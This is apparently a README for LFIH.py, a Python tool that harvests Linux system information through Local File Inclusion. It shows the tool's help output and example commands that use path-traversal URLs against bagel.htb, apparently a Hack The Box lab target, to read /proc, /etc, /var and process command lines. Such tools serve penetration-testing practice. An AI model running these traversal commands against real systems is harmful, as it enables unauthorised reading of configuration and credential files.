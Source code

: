 # 💫 Linux Sysinfo Harvester via LFI 💫
Linux System Information Harvesting through Local File Inclusion (LFI) Vulnerability 🐱

```
└──╼ $python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -h

                      __      _
                    o'')}____//
                    `_/      )
                    (_(_/-(_/
    ██      ███████ ██ ██   ██ 
    ██      ██      ██ ██   ██ 
    ██      █████   ██ ███████ 
    ██      ██      ██ ██   ██ 
    ███████ ██      ██ ██   ██                        
                    
                    Yazidou                                                                   

usage: LFIH.py [-h] -u U [-t T] [-proc] [-net] [-cmdlines] [-etc] [-var] [-all] [-p P] [-x64]

[*] Simple script for information retrieving through Local File Inclusion.

optional arguments:
  -h, --help  show this help message and exit
  -u U        Target URL
  -t T        Threads
  -proc       Retrieving on /proc
  -net        Network status (Routes, TCP, UDP, ARP) from /proc/net
  -cmdlines   Retrieving of 1-MAX_PID cmdlines on /proc/{PIDs}/cmdlines (default MAX_PID for x32, use -x64 to increase)
  -etc        Retrieving on /etc
  -var        Retrieving on /var
  -all        Retrieving all of the above
  -p P        Pattern to skip for cmdlines (i.e. NotFounds strings)
  -x64        Targeting an x64 machine (x32 by default)

```

# Examples 👨‍🎤
Retrieving processus informations : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -proc```

Retrieving processes cmdlines (args) through 100 sync threads to increase speed : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -cmdlines -t 100```

Retrieving processes cmdlines (args) with 50 threads and escaping "File not found" response string : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -cmdlines -t 50 -p "File not found"```
